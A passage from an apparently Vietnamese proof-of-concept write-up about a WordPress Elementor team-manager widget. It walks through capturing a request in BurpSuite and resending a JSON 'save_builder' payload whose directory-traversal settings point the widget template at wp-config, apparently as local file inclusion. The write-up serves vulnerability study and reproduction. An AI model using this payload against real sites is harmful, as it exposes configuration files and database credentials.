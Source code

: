 **Submit**, bắt request bằng **BurpSuite** gửi đến **Repeater**

#### Step 4

Bôi đen giá trị của param `action`,sửa payload tại **tab Inspector** và gửi lại request

```json
{
  "save_builder": {
    "action": "save_builder",
    "data": {
      "status": "pending",
      "elements": [
        {
          "id": "e9249f1",
          "elType": "container",
          "isInner": false,
          "isLocked": false,
          "settings": {},
          "elements": [
            {
              "id": "3e7c95b",
              "elType": "widget",
              "isInner": false,
              "isLocked": false,
              "settings": {
                "layout_type": "../../../../../../..",
                "../../../../../../.._style_type": "wp-config"
              },
              "elements": [],
              "widgetType": "wtm-team-manager"
            }
          ]
        },
        {
          "id": "b132b28",
          "elType": "container",
          "isInner": false,
          "isLocked": false,
          "settings": {},
          "elements": []
        }
      ],
      "settings": {
        "post_title": "Team",
        "post_status": "pending"
      }
    }
  }
}
```

**Result**:
